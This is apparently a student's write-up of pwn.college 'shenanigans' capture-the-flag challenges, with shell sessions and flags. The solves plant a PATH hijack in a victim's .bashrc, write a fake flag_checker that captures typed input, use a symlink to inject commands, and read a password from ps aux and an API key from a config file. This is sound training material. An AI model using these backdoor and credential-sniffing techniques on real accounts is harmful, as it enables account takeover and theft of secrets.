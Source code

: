 # BASHRC BACKDOOR
To use victim's `bashrc` and our write access to it to get the flag.

## My solve
**Flag:** `pwn.college{Yhas_cc8cRXBNonUT8-WRgszuR1.0VMzEzNxwiM4kjNzEzW}`

* Using nano editor to edit `/home/zardus/bashrc` and ran `/challenge/victim` to get the flag.

```
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{Yhas_cc8cRXBNonUT8-WRgszuR1.0VMzEzNxwiM4kjNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```


# SNIFFING INPUT
This challenge is to use victims's `bashrc` to get the flag .This time we have to hijack a command flag_checker to get the flag.

## My solve
**Flag:** `pwn.college{sIppirRQ8R1A3Y4BxtMYLuje7tr.0VNzEzNxwiM4kjNzEzW}`

* I used `nano` text editor to edit `/home/zardus/.bashrc`

```bash
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
PATH=/home/hacker:$PATH
```
* I created `flag_checker` program to replace the existing command in `/home/hacker`
```
hacker@shenanigans~sniffing-input:~$ touch flag_checker && nano flag_checker
#!/bin/bash
echo "Type the flag , victim: "
read flag
echo "Correct!"
echo $flag
hacker@shenanigans~sniffing-input:~$ chmod +x flag_checker
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag , victim:
*************************************************************Correct!
pwn.college{sIppirRQ8R1A3Y4BxtMYLuje7tr.0VNzEzNxwiM4kjNzEzW} 
```
* I ran `/challenge/victim` and got the flag

# OVERSHARED DIRECTORIES
We just have access to directory /home/zardus rather than file /home/zardus/.bashrc

## My solve
**Flag:** `pwn.college{k-F2dOgFAsf3uaOnV5L23jDQZOb.0FM0EzNxwiM4kjNzEzW}`

* similar to the previous challenge , we use nano editor to edit `/home/zardus/.bashrc` .
* we use `rm` to remove `/home/zardus/.bashrc` as we do not have access to the file.
* Instead we create a new file and edit it using nano i.e add `PATH=/home/hacker:$PATH`.
* Next we add executable access and run `/challenge/victim` to get the flag.

```bash
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ rm /home/zardus/.bashrc
rm: remove write-protected regular file '/home/zardus/.bashrc'? y
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ touch flag_checker && nano flag_checker
hacker@shenanigans~overshared-directories:~$ chmod +x flag_checker
hacker@shenanigans~overshared-directories:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag , victim:
*************************************************************Correct!
pwn.college{k-F2dOgFAsf3uaOnV5L23jDQZOb.0FM0EzNxwiM4kjNzEzW}
```


# TRICKY LINKING
We have access to directory `/tmp/collab` and we have to use zardus pushing the command `cat /flag` to `

## My solve
**Flag:** `pwn.college{874ka5JA4hCEr9wkGsIhBOAcMn5.0VM0EzNxwiM4kjNzEzW}`

* I used `rm` to remove the existing evil-commands file.
* I created a symbolic link between `/home/zardus/.bashrc` and `/tmp/collab/evil-commands.txt` so that we can access sensitive information.
* We ran `/challenge/victim` in order to add `cat /flag` to the `/tmp/collab/evil-commands.txt` file.
* Then, we ran `/challenge/victim` to obtain the flag.

```
hacker@shenanigans~tricky-linking:~$ rm /tmp/collab/evil-commands.txt
rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
hacker@shenanigans~tricky-linking:~$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: **********
pwn.college{874ka5JA4hCEr9wkGsIhBOAcMn5.0VM0EzNxwiM4kjNzEzW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```

# SNIFFING PROCESS ARGUMENTS
Zardus is using an automation script, passing his account password to it as an argument. Zardus is also allowed to use sudo (and, thus, to sudo cat /flag!). Steal the password, log in to Zardus' account (recall the su command from the Untangling Users module), and get that flag.

## My solve
**Flag:** `pwn.college{MszMGh7QgpMnV6vGZolCAPnnhdj.0FOzEzNxwiM4kjNzEzW}`

* Used `ps aux` to find out the password of zardus' account.
* Using `ps_1257818714` as the password of su zardus
* I obtained the flag after running `cat /flag`

```bash
hacker@shenanigans~sniffing-process-arguments:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   1056   640 ?        Ss   09:31   0:00 /sbin/docker-init -- /nix/var/nix/profiles/dojo-workspace/bin/dojo
root           7  0.0  0.0 231708  2560 ?        S    09:31   0:00 /run/dojo/bin/sleep 6h
root         147  0.0  0.0   5204  3200 ?        S    09:31   0:00 su -c auto.sh --user zardus --pass pw_1257818714 zardus
zardus       151  0.0  0.0   4132  2560 ?        Ss   09:31   0:00 /bin/bash /run/challenge/bin/auto.sh --user zardus --pass pw_12578
zardus       152  0.0  0.0 231708  2560 ?        S    09:31   0:00 sleep 6h
hacker       156  0.0  0.0 231576  3520 pts/0    Ss   09:31   0:00 /nix/store/0nxvi9r5ymdlr2p24rjj9qzyms72zld1-bash-interactive-5.2p3
hacker       162  0.0  0.0 231940  4160 pts/0    S+   09:31   0:00 /run/dojo/bin/bash --login
hacker       171  0.0  0.0 231576  3520 pts/1    Ss   09:32   0:00 /nix/store/0nxvi9r5ymdlr2p24rjj9qzyms72zld1-bash-interactive-5.2p3
hacker       177  0.0  0.0 231940  4160 pts/1    S    09:32   0:00 /run/dojo/bin/bash --login
hacker       192  0.0  0.0 231576  3520 pts/1    S+   09:40   0:00 bash auto.sh
hacker       193  0.0  0.0 231708  2560 pts/1    S+   09:40   0:00 sleep 6h
hacker       194  0.0  0.0 231576  3520 pts/2    Ss   09:40   0:00 /nix/store/0nxvi9r5ymdlr2p24rjj9qzyms72zld1-bash-interactive-5.2p3
hacker       200  0.0  0.0 231940  4160 pts/2    S+   09:40   0:00 /run/dojo/bin/bash --login
hacker       217  0.6  0.0 231576  3520 pts/3    Ss   10:49   0:00 /nix/store/0nxvi9r5ymdlr2p24rjj9qzyms72zld1-bash-interactive-5.2p3
hacker       223  0.0  0.0 231940  4160 pts/3    S    10:49   0:00 /run/dojo/bin/bash --login
hacker       232  0.0  0.0 233600  3840 pts/3    R+   10:50   0:00 ps aux
hacker@shenanigans~sniffing-process-arguments:~$ su zardus
Password:
zardus@shenanigans~sniffing-process-arguments:/home/hacker$ sudo cat /flag
pwn.college{MszMGh7QgpMnV6vGZolCAPnnhdj.0FOzEzNxwiM4kjNzEzW}
```



# SNOOPING ON CONFIGURATIONS
Steal the API key and use it as an argument to `flag_getter` to obtain the flag

## My solve
**Flag:** `pwn.college{IFfm1F2nz7-SaAYd8bVq-Nh7aYf.0lM0EzNxwiM4kjNzEzW}`

* Use `cat /home/zardus/.bashrc` to obtain the API key
* Then use the key given by `FLAG_GETTER_API_KEY=sk-48927267` as an argument to flag_getter --key to get the flag.

```bash
hacker@shenanigans~snooping-on-configurations:~$ cat /home/zardus/.bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
.
.
.
FLAG_GETTER_API_KEY=sk-48927267
hacker@shenanigans~snooping-on-configurations:~$ flag_getter --key sk-48927267
Correct API key! Do you want me to print the flag (y/n)?
y
pwn.college{IFfm1F2nz7-SaAYd8bVq-Nh7aYf.0lM0EzNxwiM4kjNzEzW}
```



